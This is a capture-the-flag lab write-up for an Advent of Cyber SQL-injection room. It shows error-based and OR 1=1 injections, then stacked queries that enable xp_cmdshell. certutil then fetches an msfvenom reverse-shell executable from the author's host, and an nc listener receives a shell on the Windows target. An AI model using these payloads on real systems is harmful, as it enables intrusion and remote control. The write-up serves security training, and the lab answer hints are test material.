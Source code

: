 # AoC 2023 - Day 10

> `SQL injection` Inject the Halls with EXEC Queries

## Learning Objectives
> - Learn to understand and identify SQL injection vulnerabilities
> - Exploit stacked queries to turn SQL injection into remote code execution
> - Help Elf McRed restore the Best Festival website and save its reputation!

## Steps

I'm tasked with attacking a Windows computer vulnerable to SQL-injection.

```bash
└─$ export box=10.10.221.121
└─$ firefox $box
```

There is a website hosted at the box.

![Website](pics/website.png)

### SQL Injection

Using this search page with url-parameters I can try sql-injections.

![Gift search](pics/giftresults.png)

Adding a `'` to the end of the url gives an error output.

```bash
http://10.10.221.121/giftresults.php?age=child&interests=toys&budget=40%27
```

```
Database query error: Array ( [0] => Array ( [0] => 42000 [SQLSTATE] => 42000 [1] => 105 [code] => 105 [2] => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Unclosed quotation mark after the character string '40''. [message] => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Unclosed quotation mark after the character string '40''. ) [1] => Array ( [0] => 42000 [SQLSTATE] => 42000 [1] => 102 [code] => 102 [2] => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Incorrect syntax near '40''. [message] => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Incorrect syntax near '40''. ) ) 
```

To get the first flag I inject `' 1=1 --`. The flag is at the bottom of the results list.

```bash
http://10.10.221.121/giftresults.php?age=child&interests=toys&budget=%27%20OR%201%3D1%20--
```

### Uploading a Reverse Shell

#### Creating the shell
```bash
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.214.49 -f exe -o reverse.exe
```

#### Hosting the executable
```bash
└─$ python3 -m http.server 8000
```

#### Navigating using the website:
```
http://10.10.221.121/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
http://10.10.221.121/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://{my_ip}:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```

#### Waiting for the connection
```bash
└─$ nc -lnvp 4444
```

#### Making the machine run reverse shell
```bash
http://10.10.221.121/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

Shell is now active.

```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.214.49] from (UNKNOWN) [10.10.221.121] 49706
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd ..
cd ..

C:\Windows>cd ..
cd ..

C:\>cd Users
cd Users

C:\Users>dir /s *note*

 Directory of C:\Users\Administrator\Desktop

10/24/2023  12:03 AM               651 Note.txt
               1 File(s)            651 bytes

C:\Users\Administrator\Desktop>type Note.txt
type Note.txt
====================
Hey h4ck3r0192,

I recieved your Bitcoin payment, thanks again for a speedy transaction.

After you gain access to the server, you can deface the website by running the deface_website.bat script in C:\Users\Administrator\Desktop. Feel free to dump the database and steal whatever you want.

If you need to revert the changes back to the original site for any reason, just run restore_website.bat from the same directory.

Also, I shouldn't need to mention this, but PLEASE DELETE this Note.txt file after defacing the website! Do NOT let this hack tie back to me.

-Gr33dstr

THM{REDACTED}
```

#### Restoring the Website

```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

11/02/2023  08:48 PM    <DIR>          .
11/02/2023  08:48 PM    <DIR>          ..
10/24/2023  01:28 AM    <DIR>          1
11/02/2023  08:48 PM    <DIR>          backups
11/02/2023  08:05 PM               339 deface_website.bat
10/24/2023  12:03 AM               651 Note.txt
11/02/2023  08:05 PM               388 restore_website.bat
               3 File(s)          1,378 bytes
               4 Dir(s)  10,492,379,136 bytes free

C:\Users\Administrator\Desktop>restore_website.bat
restore_website.bat
Removing all files and folders from C:\inetpub\wwwroot...
Website restoration completed. Please refresh the home (/index.php) page to see the changes and obtain your flag!

C:\Users\Administrator\Desktop>
```

## Question 1

> Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?

URL to the page.

## Question 2

> Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?

In plain text in the return value.

## Question 3

> Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?

```bash
http://10.10.221.121/giftresults.php?age=child&interests=toys&budget=%27%20OR%201%3D1%20--
```

## Question 4

> What flag is in the note file Gr33dstr left behind on the system?

Found in the `Note.txt`.

## Question 5

> What is the flag you receive on the homepage after restoring the website?

Found at the main page after running `restore_website.bat`.